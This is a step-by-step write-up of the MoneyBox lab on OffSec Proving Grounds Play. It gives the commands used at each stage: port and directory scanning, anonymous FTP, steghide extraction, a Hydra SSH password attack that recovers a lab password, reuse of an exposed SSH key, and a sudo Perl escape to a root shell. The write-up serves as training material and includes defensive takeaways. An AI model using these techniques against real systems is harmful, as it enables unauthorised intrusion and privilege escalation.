# MoneyBox — OffSec Proving Grounds Play Write-Up

> A clean, step-by-step walkthrough of the **MoneyBox** lab from OffSec Proving Grounds Play.



---

## ⚠️ Disclaimer

This write-up is intended for **authorized cybersecurity training environments**, specifically the OffSec Proving Grounds Play lab. Do not use the techniques, credentials, or commands against systems you do not own or have explicit permission to test.

---

## 📌 Overview

**Target:** MoneyBox  
**Platform:** OffSec Proving Grounds Play  
**Target OS:** Debian Linux

### Attack Path

```text
Nmap
  │
  ├── FTP ──► Anonymous access ──► trytofind.jpg
  │                                  │
  │                                  ▼
  │                              steghide
  │                                  │
  │                                  ▼
  │                              data.txt
  │                                  │
  │                                  ▼
  │                           Username: renu
  │                                  │
  │                                  ▼
  │                           SSH password attack
  │                                  │
  │                                  ▼
  │                            User: renu
  │                                  │
  │                                  ▼
  │                              LinPEAS
  │                                  │
  │                                  ▼
  │                         SSH private key
  │                                  │
  │                                  ▼
  │                              User: lily
  │                                  │
  │                                  ▼
  │                         sudo → /usr/bin/perl
  │                                  │
  │                                  ▼
  │                              root shell
  │                                  │
  │                                  ▼
  │                            proof.txt
```

---

# 1. Reconnaissance

I started with a full TCP port scan and service/version enumeration:

```bash
nmap -sCV -p- 192.168.206.230 --min-rate=3000 -o moneybox
```

The scan identified three exposed services:

| Port | Service | Version / Notes |
|---:|---|---|
| 21 | FTP | vsftpd 3.0.3, anonymous login allowed |
| 22 | SSH | OpenSSH 7.9p1 |
| 80 | HTTP | Apache 2.4.38 |

The FTP service immediately stood out because **anonymous authentication was enabled**.



---

# 2. Web Enumeration

Opening port 80 revealed the MoneyBox website.


The page itself did not expose much useful information, so I moved to directory enumeration.

## Directory Fuzzing

I used Gobuster with the common directory wordlist:

```bash
gobuster dir -u http://192.168.206.230 \
-w /usr/share/wordlists/dirb/common.txt -t 50
```

The interesting result was:

```text
/blogs
```



---

# 3. Enumerating `/blogs`

Visiting `/blogs/` displayed a page containing a hint.



The page source contained an important clue: another secret directory.

The source revealed:

```text
S3cr3t-T3xt
```



---

# 4. Secret Directory

I visited:

```text
/S3cr3t-T3xt/
```

The page itself did not contain anything useful.



However, checking the source code revealed another clue: a **secret key**.



That key became important later when dealing with the FTP-hosted image.

---

# 5. FTP Enumeration

Since the Nmap scan showed that anonymous FTP access was enabled, I connected to the FTP service:

```bash
ftp 192.168.206.230
```

Username:

```text
anonymous
```

The login succeeded.



I listed the available files:

```bash
ls
```

The interesting file was:

```text
trytofind.jpg
```

I downloaded it:

```bash
get trytofind.jpg
```



---

# 6. Steganography

The image looked like a normal JPEG, but the filename suggested that it was worth investigating.

I used `steghide`:

```bash
steghide extract -sf trytofind.jpg
```

It requested a passphrase.

I used the **secret key discovered in the web source**.

The extraction succeeded and produced:

```text
data.txt
```



---

# 7. Extracting the Username

I read the extracted file:

```bash
cat data.txt
```

It contained a message referencing a user named **renu** and indicating that the account had a weak password.



At this point the attack path became:

```text
Web source
    ↓
Secret key
    ↓
Steghide
    ↓
data.txt
    ↓
Username: renu
    ↓
Weak SSH password
```

---

# 8. SSH Password Attack

Because SSH was exposed and the extracted message explicitly indicated a weak password, I tested the `renu` account against `rockyou.txt`.

```bash
hydra -l renu -P /usr/share/wordlists/rockyou.txt 192.168.206.230 ssh
```

Hydra found valid credentials:

```text
login: renu
password: 987654321
```



> **Note:** This credential is included because it is part of the supplied lab write-up. Never test password lists against systems without authorization.

---

# 9. Initial Shell — User `renu`

I logged in through SSH:

```bash
ssh renu@192.168.206.230
```

This gave me a shell as `renu`.



The user flag was located in the home directory as:

```text
local.txt
```

---

# 10. Local Privilege Escalation Enumeration

I first checked whether `renu` had any sudo privileges:

```bash
sudo -l
```

The result showed that `renu` could not use sudo.

I also checked for SUID binaries:

```bash
find / -perm -u=s -type f 2>/dev/null
```

Nothing immediately useful for privilege escalation stood out.



At this point, I moved to automated enumeration with **LinPEAS**.

---

# 11. Running LinPEAS

I transferred `linpeas.sh` to the target using SCP:

```bash
scp -P 22 linpeas.sh renu@192.168.206.230:/home/renu
```



On the target, I made it executable and ran it:

```bash
chmod +x linpeas.sh
./linpeas.sh
```



---

# 12. Discovering the `lily` Account and SSH Key

LinPEAS highlighted interesting files associated with another local account, `lily`.



More importantly, the enumeration exposed SSH-related material belonging to `lily`.



The supplied write-up also showed an OpenSSH private key.





I copied the private key into a local file named:

```text
id_rsa
```

Before using it with SSH, I corrected its permissions:

```bash
chmod 600 id_rsa
```



---

# 13. SSH as `lily`

I then used the private key to authenticate as `lily`:

```bash
ssh lily@192.168.206.230 -i id_rsa
```

The login succeeded.



---

# 14. `sudo` Enumeration as `lily`

I checked the sudo permissions again:

```bash
sudo -l
```

This time, there was a major finding:

```text
User lily may run the following commands on MoneyBox:
    (ALL : ALL) NOPASSWD: /usr/bin/perl
```



This means `lily` can execute `/usr/bin/perl` as **root without entering a password**.

Because Perl can execute arbitrary system commands, this is enough to obtain a root shell.

---

# 15. Root Privilege Escalation

I used Perl to execute Bash:

```bash
sudo /usr/bin/perl -e 'exec "/bin/bash";'
```

The command successfully spawned a root shell.



I confirmed root access by checking the prompt:

```text
root@MoneyBox:~#
```

---

# 16. Root Flag

Finally, I accessed the root directory and located `proof.txt`:

```bash
ls
cat proof.txt
```



The root flag was successfully obtained.

---

# 🧠 Key Takeaways

This machine chained together several simple weaknesses rather than relying on one complicated exploit.

### 1. Anonymous FTP

Anonymous FTP access exposed a file that should not have been publicly accessible.

### 2. Information Disclosure

The website source code leaked a secret key that was later required to extract data from the JPEG.

### 3. Steganography

The JPEG contained additional data hidden using `steghide`.

### 4. Weak Credentials

The extracted message revealed a username and indicated that the password was weak enough to recover through password guessing.

### 5. Local Enumeration

LinPEAS helped identify interesting files and another user's SSH material.

### 6. SSH Private Key Exposure

An accessible private key provided a path from `renu` to `lily`.

### 7. Dangerous Sudo Configuration

The critical privilege-escalation flaw was:

```text
lily → sudo → /usr/bin/perl → root
```

Allowing an unprivileged user to execute an interpreter such as Perl as root is effectively equivalent to giving that user arbitrary root command execution.

---

# 🔗 Attack Chain Summary

```text
Port Scan
   │
   ├── 80/tcp → Web enumeration
   │              │
   │              ├── /blogs
   │              │
   │              └── Source → secret key
   │
   └── 21/tcp → Anonymous FTP
                  │
                  └── trytofind.jpg
                           │
                           └── steghide + secret key
                                    │
                                    └── data.txt
                                           │
                                           └── renu
                                                │
                                                └── SSH password attack
                                                     │
                                                     └── renu shell
                                                          │
                                                          └── LinPEAS
                                                               │
                                                               └── SSH key
                                                                    │
                                                                    └── lily
                                                                         │
                                                                         └── sudo -l
                                                                              │
                                                                              └── Perl as root
                                                                                   │
                                                                                   └── root
```

---

## 📚 Tools Used

| Tool | Purpose |
|---|---|
| `Nmap` | Port and service enumeration |
| `Gobuster` | Web directory enumeration |
| `FTP` | Anonymous FTP access and file retrieval |
| `steghide` | Extract hidden data from JPEG |
| `Hydra` | SSH password guessing |
| `SCP` | Transfer LinPEAS to the target |
| `LinPEAS` | Local privilege-escalation enumeration |
| `SSH` | Remote access |
| `Perl` | Root shell via permitted sudo execution |

---

## 📁 Repository Structure

```text
MoneyBox-CTF/
├── README.md
└── images/
    ├── 01-nmap-scan.png
    ├── 02-web-root.png
    ├── 03-gobuster.png
    ├── 04-blogs-page.png
    ├── 05-blogs-source.png
    ├── 06-secret-directory.png
    ├── 07-secret-directory-source.png
    ├── 08-ftp-anonymous-login.png
    ├── 09-ftp-download.png
    ├── 10-steghide-extraction.png
    ├── 11-data-txt.png
    ├── 12-ssh-bruteforce.png
    ├── 13-user-shell.png
    ├── 14-sudo-suid-enumeration.png
    ├── 15-transfer-linpeas.png
    ├── 16-run-linpeas.png
    ├── 17-linpeas-user-enumeration.png
    ├── 18-ssh-authorized-key.png
    ├── 19-private-key-part1.png
    ├── 20-private-key-part2.png
    ├── 21-fix-key-permissions.png
    ├── 22-ssh-as-lily.png
    ├── 23-lily-sudo-perl.png
    ├── 24-perl-root-shell.png
    └── 25-root-proof.png
```

---

## 🏁 Conclusion

MoneyBox is a good example of why penetration testing is often about **connecting small weaknesses together**.

The individual techniques were straightforward:

- exposed services
- directory enumeration
- source-code inspection
- anonymous FTP
- steganography
- weak credentials
- local enumeration
- exposed SSH material
- unsafe sudo configuration

The important skill is recognizing how one finding leads to the next stage of the attack.

---

**Lab:** MoneyBox  
**Platform:** OffSec Proving Grounds Play  
**Focus:** Enumeration · FTP · Web Enumeration · Steganography · SSH · Credential Attacks · Linux Privilege Escalation
